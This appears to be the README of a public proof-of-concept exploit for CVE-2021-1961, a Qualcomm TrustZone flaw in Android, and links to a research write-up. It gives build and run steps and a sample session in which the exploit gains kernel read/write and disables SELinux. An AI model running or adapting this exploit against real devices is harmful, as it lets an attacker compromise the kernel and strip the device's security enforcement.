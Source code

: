 Exploit code for CVE-2021-1961. Full write-up is available
[on my blog](https://tamirzb.com/attacking-android-kernel-using-qualcomm-trustzone).

In order to build the exploit, run Android NDK's `ndk-build`.

In order to run the exploit, you need to have access to `/dev/qseecom`, which
means having the right user/group and the right SELinux context. This can be
done either on a debug image using the command `su system`, or on a stock image
patched with [Magisk](https://github.com/topjohnwu/Magisk) using the command
`su - system`.

Here is an example of running the exploit on a stock image patched with Magisk:

```bash
$ adb push qseecom_exploit /data/local/tmp
$ adb shell
blueline:/ $ cd /data/local/tmp
blueline:/data/local/tmp $ su - system
blueline:/data/local/tmp $ id
uid=1000(system) gid=1000(system) groups=1000(system) context=u:r:magisk:s0
blueline:/data/local/tmp $ getenforce
Enforcing
blueline:/data/local/tmp $ ./qseecom_exploit
[+] Setup widevine
[+] Got a 32 bit addresses ION
[+] Setup exploit kernel r/w
[+] Found kallsyms_token_table marker
[+] Found all kallsyms data
[+] Kernel virtual base address: 0xffffff9b9b080000
[+] Modified /proc/version
[+] Disabled SELinux
blueline:/data/local/tmp $ cat /proc/version
*modified*
blueline:/data/local/tmp $ getenforce
Permissive
```
